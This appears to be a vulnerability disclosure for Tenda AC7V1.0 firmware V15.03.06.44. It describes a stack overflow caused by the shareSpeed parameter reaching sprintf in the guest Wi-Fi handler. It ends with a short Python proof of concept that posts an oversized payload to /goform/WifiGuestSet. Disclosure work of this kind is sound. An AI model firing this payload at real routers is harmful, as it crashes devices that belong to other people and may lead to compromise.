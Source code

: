 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2776.html

## Affected version

 AC7V1.0 V15.03.06.44

## Vulnerability details

The Tenda  AC7V1.0 V15.03.06.44 firmware has a stack overflow vulnerability in the `fromSetWifiGusetBasic` function. The `shared_down_speed` variable receives the `shareSpeed` parameter from a POST request and is later passed to function `set_wl_guest_qos_list`. However, since the user can control the input of  `shareSpeed`, in function `set_wl_guest_iplist`, the statement `sprintf` can cause a stack overflow. The user-provided  `shareSpeed` can exceed the capacity of the `qos_iprule` array, triggering this security vulnerability.

![image-20240318185619960](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318185619960.png)

![image-20240318185800602](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318185800602.png)



![image-20240318185609508](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318185609508.png)

![image-20240318185936442](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318185936442.png)

![image-20240318185906557](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318185906557.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WifiGuestSet"
payload = b"a"*1000

data = {"shareSpeed": payload}
response = requests.post(url, data=data)
print(response.text)
```

